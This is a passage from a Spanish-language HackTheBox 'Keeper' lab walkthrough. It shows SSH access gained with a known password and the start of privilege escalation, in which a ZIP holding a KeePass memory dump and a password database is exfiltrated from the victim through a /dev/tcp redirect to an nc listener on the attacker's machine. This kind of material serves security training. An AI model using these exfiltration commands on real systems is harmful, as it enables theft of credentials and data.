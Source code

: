 ```bash
❯ nxc ssh 10.10.11.227 -u 'lnorgaard' -p 'Welcome2023!'
SSH         10.10.11.227    22     10.10.11.227     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.3
SSH         10.10.11.227    22     10.10.11.227     [+] lnorgaard:Welcome2023!  Linux - Shell access!

❯ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
fab90a2de***********************
```

## Privilege Escalation

### Transfer a file with /dev/tcp method

Revisando el directorio en el que nos encontramos, visualizamos un archivo llamado `RT30000.zip`.

```bash
lnorgaard@keeper:~$ ls -l
total 85348
-rw-r--r-- 1 root root      87391651 Jan 26 14:18 RT30000.zip
```

Nos pasaremos este archivo a nuestro equipo local para trabajar con él y comprobar el contenido de este. Para ello, desde nuestro equipo de atacnate nos pondremos en escucha con `nc` para recibir por el puerto `443` el archivo mencionado.

```bash
❯ nc -nlvp 443 > RT30000.zip
listening on [any] 443 ...
```

Desde el equipo víctima, enviaremos el contenido del `.zip` realizando un `cat` sobre el archivo y enviando el `output` al `/dev/tcp` de nuestra dirección y puerto donde estamos en escucha.

```bash
lnorgaard@keeper:~$ cat RT30000.zip > /dev/tcp/10.10.16.5/443
```

Verificaremos que hemos recibido correctamente el archivo original sin problemas. Descomprimiremos el archivo y visualiozaremos que nos encontramos con un archivo `.DMP` que se trata de un `Memory Dump` y también una base de datos de contraseñas de **KeepPass**.

```bash
❯ ls -l RT30000.zip
.rw-rw-r-- kali kali 83 MB Sun Jan 26 14:20:46 2025  RT30000.zip

❯ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
           
❯ tree
.
├── KeePassDumpFull.dmp
├── passcodes.kdbx
└── RT30000.zip

1 directory, 3 files
```
